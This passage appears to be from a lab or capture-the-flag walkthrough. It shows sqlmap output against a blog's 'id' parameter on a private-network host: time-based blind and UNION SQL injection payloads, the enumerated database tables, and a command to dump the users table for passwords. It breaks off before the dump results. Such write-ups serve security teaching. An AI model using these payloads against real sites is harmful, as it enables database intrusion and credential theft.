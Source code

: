 ```
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: act=page&id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))QKoM) AND 'HUMC'='HUMC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: act=page&id=1' UNION ALL SELECT NULL,CONCAT(0x7170706b71,0x766e4548586248517a7671644852634e4b797a56685349495347517370524769526c6a6b7964436c,0x7162707171),NULL,NULL,NULL-- -
---
[10:35:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0.12
[10:35:36] [INFO] fetching tables for database: 'blog'
Database: blog
[10 tables]
+-----------------------+
| blogphp_blogs         |
| blogphp_cat           |
| blogphp_comments      |
| blogphp_files         |
| blogphp_links         |
| blogphp_pages         |
| blogphp_stats         |
| blogphp_subscriptions |
| blogphp_templates     |
| blogphp_users         |
+-----------------------+

[10:35:36] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.110.151'
[*] shutting down at 10:35:36
```

I'll now show that users table, perhaps we can snarf a password:

```
root@kali:~# sqlmap -u 'http://192.168.110.151/blog/index.php?act=page&id=1' -D blog -T blogphp_users --dump
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201606250a89}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 10:35:56

[10:35:56] [INFO] resuming back-end DBMS 'mysql' 
[10:35:56] [INFO] testing connection to the target URL
[10:35:56] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: act=page&id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))QKoM) AND 'HUMC'='HUMC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: act=page&id=1' UNION ALL SELECT NULL,CONCAT(0x7170706b71,0x766e4548586248517a7671644852634e4b797a56685349495347517370524769526c6a6b7964436c,0x7162707171),NULL,NULL,NULL-- -
---
```